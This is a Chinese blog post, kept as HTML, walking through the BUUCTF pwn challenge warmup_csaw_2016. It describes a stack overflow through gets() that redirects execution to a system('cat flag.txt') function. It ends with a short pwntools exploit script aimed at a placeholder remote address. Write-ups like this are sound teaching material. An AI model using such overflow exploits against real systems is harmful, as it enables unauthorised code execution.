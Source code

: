 # 817
<div id="content_views" class="markdown_views prism-atom-one-dark">
                    <svg xmlns="http://www.w3.org/2000/svg" style="display: none;">
                        <path stroke-linecap="round" d="M5,0 0,2.5 5,5z" id="raphael-marker-block" style="-webkit-tap-highlight-color: rgba(0, 0, 0, 0);"></path>
                    </svg>
                    <h1><a name="t0"></a><a id="BUUCTFpwnwarmup_csaw_2016_0"></a>[BUUCTF-pwn]——warmup_csaw_2016</h1> 
<ul><li>题目地址：<a href="https://buuoj.cn/challenges#warmup_csaw_2016">https://buuoj.cn/challenges#warmup_csaw_2016</a></li><li>题目：<br> <img src="https://img-blog.csdnimg.cn/20210130131608840.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lfcGVhaw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"><br> 管他三七二十一，先将文件下载下来再说。老规矩，现在Linux上用checksec看看文件。64位，Stack、NX、PIE都没有开，应该是栈溢出的题。<br> <img src="https://img-blog.csdnimg.cn/2021013013183650.png" alt="在这里插入图片描述"><br> 赶快 go go go 去window 上用IDA反汇编看看，看到返回的是gets函数，一个典型的可以利用栈溢出覆盖的地方。其他没什么有用的信息。<br> <img src="https://img-blog.csdnimg.cn/20210130132317800.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lfcGVhaw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"><br> 按Shift + F12，看一下字符串。不看不知道一看有惊喜。cat flag.txt。虽然没有 /bin/sh，可以获得权限。但是这个足够我们拿到flag了。<br> <img src="https://img-blog.csdnimg.cn/20210130132436507.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lfcGVhaw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"><br> 双击，发现在sub_40060D这个函数里面。<br> <img src="https://img-blog.csdnimg.cn/20210130132701959.png" alt="在这里插入图片描述"><br> 进这个函数看看，眼前一亮，就是我们想要的 system(“cat flag.txt”)<img src="https://img-blog.csdnimg.cn/20210130135359812.png" alt="在这里插入图片描述"><br> 点击查看函数所在位置，发现<strong>0x400611</strong>是压参数的地方<br> 。我们可以将其作为返回地址。<br> <img src="https://img-blog.csdnimg.cn/20210130135431510.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lfcGVhaw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"><br> <img src="https://img-blog.csdnimg.cn/20210130135717975.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lfcGVhaw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"></li></ul> 
<p>查看v5的位置，发现离返回地址的距离是0x40 + 8。<br> <img src="https://img-blog.csdnimg.cn/20210130135744217.png" alt="在这里插入图片描述"><img src="https://img-blog.csdnimg.cn/20210130135752924.png" alt="在这里插入图片描述"></p> 
<p>所以这道题的exploit为</p> 
<pre data-index="0" class="prettyprint"><code class="prism language-python has-numbering" onclick="mdcp.copyCode(event)" style="position: unset;"><span class="token keyword">from</span> pwn <span class="token keyword">import</span> <span class="token operator">*</span>
p <span class="token operator">=</span> remote<span class="token punctuation">(</span><span class="token string">'ip地址'</span><span class="token punctuation">,</span>ip端口<span class="token punctuation">)</span>
payload<span class="token operator">=</span><span class="token string">'a'</span><span class="token operator">*</span><span class="token punctuation">(</span><span class="token number">0x40</span><span class="token operator">+</span><span class="token number">8</span><span class="token punctuation">)</span><span class="token operator">+</span>p64<span class="token punctuation">(</span><span class="token number">0x400611</span><span class="token punctuation">)</span>
p<span class="token punctuation">.</span>sendline<span class="token punctuation">(</span>payload<span class="token punctuation">)</span>
p<span class="token punctuation">.</span>interactive<span class="token punctuation">(</span><span class="token punctuation">)</span>
<div class="hljs-button {2}" data-title="复制"></div></code><ul class="pre-numbering" style=""><li style="color: rgb(153, 153, 153);">1</li><li style="color: rgb(153, 153, 153);">2</li><li style="color: rgb(153, 153, 153);">3</li><li style="color: rgb(153, 153, 153);">4</li><li style="color: rgb(153, 153, 153);">5</li></ul></pre> 
<p><img src="https://img-blog.csdnimg.cn/2021013014031090.png" alt="在这里插入图片描述"><br> 其实这道题和上一道题解法基本一样，感兴趣的也可以去看看 😃</p>
                </div>
